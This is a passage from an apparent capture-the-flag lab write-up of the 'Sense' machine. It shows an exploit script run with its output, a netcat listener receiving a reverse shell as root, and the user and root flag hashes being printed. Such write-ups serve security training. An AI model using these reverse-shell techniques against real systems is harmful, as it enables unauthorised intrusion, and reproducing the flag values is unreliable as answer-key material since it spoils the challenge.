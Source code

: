 ```
└──╼ $python3 test.py
CSRF token obtained
Running exploit...
Exploit completed
```

on our `nc` window we have...

```
└──╼ $nc -nvlp 5000
Listening on [0.0.0.0] (family 0, port 5000)
Connection from 10.10.10.60 18748 received!
sh: can't access tty; job control turned off
#
```
Awesome!
and 

```
# whoami
root
```
Finally with a simple one and done command to get what we need

```
# cat /home/rohit/user.txt && echo " " && cat /root/root.txt
8721327cc232073b40d27d9c17e7348b 
d08c32a5d4f8c8b10e76eb51a69f1a86
```
![](https://github.com/ICMPofDED/ICMPofDED.github.io/blob/master/images/sense/root.png?raw=true)

